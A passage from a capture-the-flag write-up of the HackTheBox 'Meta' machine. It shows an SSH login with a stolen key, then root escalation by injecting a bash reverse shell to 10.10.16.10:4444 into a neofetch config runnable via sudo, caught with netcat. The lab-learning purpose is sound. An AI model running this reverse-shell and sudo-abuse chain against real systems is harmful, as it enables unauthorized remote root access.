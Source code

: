 And we would already be inside the machine as the user with UID 1000.

```console
❯ ssh -i id_rsa thomas@artcorp.htb
Linux meta 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Jun  4 07:10:47 2022 from 10.10.16.10
thomas@meta:~$ 
```

### Privilege Escalation

I was lucky on the escalation because the first thing I usually do is `sudo -l` and it rarely gives me anything interesting but this time it didn't.

We see how `/usr/bin/neofetch \"\"` can be used without a password. On the other hand we have the environment variable of the configuration directory.

We set the variable to the user's .config directory and insert a reverse shell into the neofetch configuration file. Now all we have to do is run `sudo /usr/bin/neofetch \"\"`.

```console
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
thomas@meta:~$ export XDG_CONFIG_HOME=/home/thomas/.config
thomas@meta:~$ echo "bash -i >& /dev/tcp/10.10.16.10/4444 0>&1" >> .config/neofetch/config.conf
thomas@meta:~$ sudo /usr/bin/neofetch \"\"
```

And we will have access to the system as a root user.

```console
❯ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.11.140] 47112
root@meta:/home/thomas# id
id
uid=0(root) gid=0(root) groups=0(root)
```

## Conclusion

It is a machine that is "easy" considering that it is of medium difficulty. I guess the difficulty is higher for the downstream user (www-data). I had not dealt with images for this type of processes and I find it interesting.

### Techniques and Tools

1. rustscan (implement nmap)
2. ffuf
3. CVE-2021-22204
4. RCE (Remote Code Execution)
5. PE (Privilege Escalation)

